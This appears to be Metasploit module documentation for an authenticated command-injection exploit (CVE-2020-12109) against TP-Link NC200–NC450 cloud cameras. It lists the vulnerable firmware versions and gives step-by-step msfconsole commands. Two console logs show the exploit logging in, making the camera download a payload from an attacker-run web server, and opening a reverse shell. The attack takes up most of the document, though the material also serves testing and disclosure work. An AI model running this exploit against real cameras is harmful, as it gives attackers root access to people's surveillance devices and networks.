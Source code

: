 ## Vulnerable Application

TP-Link cloud cameras NCXXX series (NC200, NC210, NC220, NC230, 
NC250, NC260, NC450) are vulnerable to an authenticated command 
injection. In all devices except NC210, despite a check on the name 
length in `swSystemSetProductAliasCheck`, no other checks are in place 
in order to prevent shell metacharacters from being introduced. The 
system name would then be used in `swBonjourStartHTTP` as part of a 
shell command where arbitrary commands could be injected and 
executed as root. NC210 devices cannot be exploited directly via 
`/setsysname.cgi` due to proper input validation. NC210 devices are 
still vulnerable since `swBonjourStartHTTP` did not perform any 
validation when reading the alias name from the configuration file. 
The configuration file can be written, and code execution can be 
achieved by combining this issue with CVE-2020-12110.
This module will therefore support the following TP-Link cameras:

-NC200 <= 2.1.9 build 200225

-NC220 <= 1.3.0 build 200304 

-NC230 <= 1.3.0 build 200304

-NC250 <= 1.3.0 build 200304 

-NC260 <= 1.5.2 build 200304

-NC450 <= 1.5.3 build 200304

## Verification Steps
-Turn your camera on and make sure you can connect to its web interface.

-Take note of the camera model, ip address, web interface port and credentials.

-Once that is done, open msfconsole and execute the following commands:
   
1. `use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection`
2. `set rhost [camera ip]`
3. `set rport [camera web interface port, e.g. 80 or 443]`
4. `set target [ 0 for NC200, NC220, NC230, NC250 | 1 for NC260, NC450]`
5. `set username [web interface username]`
6. `set password [corresponding password]`
7. `set payload [payload of choice, e.g. linux/mipsle/shell/reverse_tcp]` 
8. `set lhost [host ip where our reverse shell is listening]`
9. `set lport [port to listen for incoming shell]`
10. `exploit`

You should get a shell.

## Options
USERNAME => The web interface username

PASSWORD => The web interface password for the specified username

RHOSTS   => The target camera ip address

RPORT    => The target port (TCP)

TIMEOUT  => Timeout for the HTTP Server to wait for the ELF payload request


## Scenarios

Target = 0 (TP-Link NC200, NC220, NC230, NC250)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 80
rport => 80
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 0
target => 0
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[-] Handler failed to bind to 192.168.0.254:5555:-  -
[*] Started reverse TCP handler on 0.0.0.0:5555 
[*] Authenticating with admin:cGFzc3dvcmQ= ...
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > [+] Logged-in as admin
[+] Got cookie: ss8mgz2ohggbmkt
[+] Got token: tw74vc1jd946r0x
[*] Starting web server on 192.168.0.254:8080 ...
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.254:8080/
[*] Triggering payload download from http://192.168.0.254:8080
[+] A request just came in...
[*] Sending the payload...
[*] Executing vsqjvhhj
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 1 opened (x.x.x.x:5555 -> x.x.x.x:38152) at xxxx-xx-xx xx:xx:xx -0400
```

Target = 1 (TP-Link NC260, NC450)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 443
rport => 443
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 1
target => 1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > 
[-] Handler failed to bind to 192.168.0.254:5555:-  -
[*] Started reverse TCP handler on 0.0.0.0:5555 
[*] Authenticating with admin:0b8b946432f1ac91f0b07bd5f8df6587 ...
[+] Logged-in as admin
[+] Got cookie: iy6iaj6wugpxi3h
[+] Got token: 6dv47bk91xn57y8
[*] Starting web server on 192.168.0.254:8080 ...
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.254:8080/
[*] Triggering payload download from http://192.168.0.254:8080
[+] A request just came in...
[*] Sending the payload...
[*] Executing izosypiw
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 1 opened (x.x.x.x:5555 -> x.x.x.x:38128) at xxxx-xx-xx xx:xx:xx -0400
```

### References

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12109

https://nvd.nist.gov/vuln/detail/CVE-2020-12109

https://seclists.org/fulldisclosure/2020/May/2
